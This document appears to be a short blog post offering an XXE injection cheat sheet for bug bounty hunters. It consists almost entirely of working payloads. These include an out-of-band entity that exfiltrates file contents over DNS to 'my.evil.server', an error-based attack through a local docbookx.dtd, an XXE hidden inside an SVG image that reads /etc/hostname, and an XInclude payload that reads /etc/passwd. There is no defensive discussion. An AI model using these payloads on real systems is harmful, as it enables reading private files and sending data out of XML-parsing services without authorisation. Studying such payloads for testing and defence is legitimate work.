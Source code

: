 ```yaml
---
layout: post
title:  "XXE_Cheat_sheet"
date:   2020-08-13 04:00 +0900
categories: Security
tags: [bugbountytip]
---
```


<br />
### XXE-OOB-Over-DNS
```
<!ENTITY % data SYSTEM "file:///tmp/foo">
<!ENTITY % url "<!ENTITY &#x25; exfil SYSTEM 'http://%data;.my.evil.server'>">
```
<br />
<br />

### XXE-Witch-Local_DTD(docbookx.dtd)
```
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
 <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
 <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
 &#x25;eval;
 &#x25;error;
 '>

    %local_dtd;
]>
<root></root>
```
<br />
<br />

### XXE-inside-SVG
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
<br />
<br />

### XXE-Xinclude
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
<br />
<br />
<br />

ref) 
Usually does tricks work for me. but, try other way ins't hurt us, right? :)

[allthegoodthing](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-apache-karaf)
:)


